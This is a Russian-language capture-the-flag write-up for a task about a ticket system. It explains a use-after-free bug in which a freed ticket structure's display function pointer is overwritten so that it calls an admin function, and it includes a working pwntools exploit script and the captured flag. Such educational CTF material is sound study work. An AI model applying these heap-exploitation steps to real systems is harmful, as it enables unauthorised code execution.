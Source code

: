 # Task: Призрак заявки

### Подробный анализ уязвимости

1. **Создание заявки**: При создании заявки вызывается функция ticket_create, которая выделяет память для структуры ticket, содержащей:
    - Указатель на функцию display, использующуюся для отображения содержимого заявки.
    - Заголовок и контент заявки.
    Пользователь указывает размер для контента, и malloc выделяет соответствующий объем памяти для его хранения.
2. **Удаление заявки**: Функция del_ticket освобождает память, занятую контентом заявки, но не обнуляет указатель на саму структуру ticket в ticket_list. Это приводит к состоянию UAF, поскольку, несмотря на освобождение памяти, указатель все еще можно использовать.
3. **Использование освобожденной памяти**: Поскольку указатель на структуру не удален, злоумышленник может создать новый объект в памяти, которая ранее использовалась для удаленного тикета. Так можно перезаписать поля старой заявки, включая указатель display, и перенаправить его на функцию admin.

### Цель эксплуатации

Задача состоит в том, чтобы создать заявки и удалить их, после чего создать новую заявку так, чтобы её данные записались в память освобожденной структуры. Это позволяет перезаписать указатель display, который затем вызовется через функцию read_ticket для выполнения функции admin.

### Эксплуатация

1. Создание двух заявок: Мы создаем две заявки с контентом фиксированного размера (например, 80 байт), чтобы они занимали определенные области памяти.
2. Удаление заявок: Удаляем обе заявки, освобождая тем самым память.
3. Создание третьей заявки: Создаем третью заявку с размером контента, равным размеру структуры ticket. Это действие приводит к выделению освобожденной памяти от предыдущих заявок и перезаписи данных в структуре удаленного тикета.
4. Перезапись указателя display: Перезаписываем указатель display на адрес функции admin, чтобы при вызове функции отображения вместо обычного вывода выполнялась привилегированная функция admin.

```python
from pwn import *

elf = context.binary = ELF("./chall")

# Подключаемся к серверу
p = remote("localhost", 12345)

# Адрес функции `admin`, куда будет перенаправлен указатель `display`
target = p64(0x401870)  # адрес функции `admin`


def login():
    p.recvline()
    p.sendline(b'a')
    p.recv(timeout=1)
    p.sendline(b'a')
    p.recv(timeout=1)

def choice(c):
    p.sendline()
    a = p.recvuntil(b"Exit")
    p.sendline(c)

def create(title, size, content):
    choice(b'3')
    p.sendline(title)
    p.sendline(size)
    p.sendline(content)


def delete(index):
    choice(b'4')
    p.sendline(index)


login()

create(b'title', b'80', b'test') 
create(b'title', b'80', b'test')
delete(b'0')
delete(b'0')
create(b'exploit', b'50', target)
choice(b'2')

p.sendline(b'2')
p.interactive()
p.close()
```

Flag: `EclipseCTF{h3ap_0v3rfl0w_m4st3ry_7x9Q2}`